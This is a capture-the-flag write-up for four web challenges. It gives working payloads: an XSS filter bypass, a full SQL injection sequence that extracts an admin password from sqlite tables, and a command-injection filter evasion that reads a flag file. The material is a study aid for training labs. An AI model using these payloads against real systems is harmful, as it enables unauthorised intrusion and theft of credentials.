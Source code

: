 # 1. Choosy
Description:
Single solution doesn't works on all problems. One should try different solutions for different problem.

link: http://20.193.247.209:8333/

Solution:
+ XSS detected
+ ` <image src/onerror=alert(1)>` this input gives xss
+ <script> tag is blacklisted
+ final payload:`"'><img src=xxx:x \x09onerror=javascript:alert(1)>
+ Flag: shellctf{50oom3_P4yL0aDS_aM0ng_Maaa4nnY}

  
# 2. Extractor
  
  Description: We are under emergency. Enemy is ready with its nuclear weapon we need to activate our gaurds but chief who had password is dead. There is portal at URL below which holds key within super-user account, can you get the key and save us.
  link: http://20.125.142.38:8956/

  Solution:
  + An sql injection challenge
  + we are provided with login and register functionality.
  + When we simply inserted `' or 1=1 --+` we got the following informations dumped.<br>
   name: user<br>
   password: pass123<br>
  signature: nothing here<br>
  
 + From this we can understand that its a basic sql injection challenge.
 + So, now lets try to know how many columns are there in the database<br>
   query: `' union select 1,2,3,4 --+`<br>
   output: name:2<br>
           pass: 3<br>
          signature: 4<br>
+ Dump the sqlite version:<br>
  query:` ' union select 1,sqlite_version(),3,4 --+`<br>
  outptu: name: 3.27.2<br>
          pass:3<br>
          signature: 4<br>
  
 + Now we need to get the table names:<br>
   query: `' union select 1,group_concat(tbl_name),3,4 from sqlite_master where type='table' and tbl_name NOT LIKE 'sqlite_%' --+`<br>
   output: name: Admin, users<br>
            pass:3<br>
            signature: 4<br>
  
 + Column names of the table 'Admin':<br>
  query: `' union select 1,sql,3,4 from sqlite_master where type!='meta' and sql NOT NULL and name not like 'sqlite_%' --+`<br>
  output: name:CREATE TABLE Admins ( id INTEGER PRIMARY KEY AUTOINCREMENT, user TEXT NOT NULL, pass TEXT NOT NULL, content TEXT NOT NULL )
          pass: 3<br>
          signature: 4<br>
  
 +Now the values of the given columns: (user, pass,content)<br>
  query: `' union select 1, user,pass,content from Admins --+`<br>
  outptu: name: admin<br>
          pass: h4rd_to_gu355<br>
          signature: shellctf{Sql_1Nj3c7i0n_B45iC_XD}<br>
  
 + So, here we got the flag!
  
  
 # 3. Colour cookie
  
 Challenge description:
  Gone those days when no colours, images, fonts use to be on a webpage. We now have various ways to decorate our webpages and here is one such example.
  
link: http://20.125.142.38:8326/
 Solution:
 + When we give something in the name field, for example i gave name=ram, then the url becomes: /check?name=ram
 + When we see the title, we may think whether the challenge is about cookies, but we cant see any cookies tho!
 + Looking into the source code, there is a file named `base_cookies.css`. When we go into that file and scroll till the end, we can see this comment,/*   name="C0loR"  */
 + So, i tried giving 'C0loR' in the name field, nothing happened.
 + Then i changed the name parameter in the url to C0loR and gave the value as blue, as it is given as 'blue is my favourite color'.
 + There you got the flag: shellctf{C0ooooK13_W17h_c0ooorr3c7_Parr4m37er...}
  
 
 # 4. Illusion
  
Challenge discription: Sometimes it happens things are there but you can't see it directly. We need to change our vision to make it visible. I believe you have that vision.
link: http://20.125.142.38:8765/
  
 Solution:
 + Tried command injection, and lfi payloads nothing worked,
 + When we give cd;, we can see only the ; wll be given as output.
 + when i did, ccdd ;, it gave the output as cd ;. So, the application uses some kind of filters to avoid the common commands.
 + lets try: `ccdd ....;cat flag.txt;` still didnt worked.
 + lets try: `ccdd ....;ccdd ....;cat flag.txt;`, it worked!!
  flag: shellctf{F1l73R5_C4n'T_Pr3v3N7_C0mM4nd_1nJeC71on}
  
  
  

  

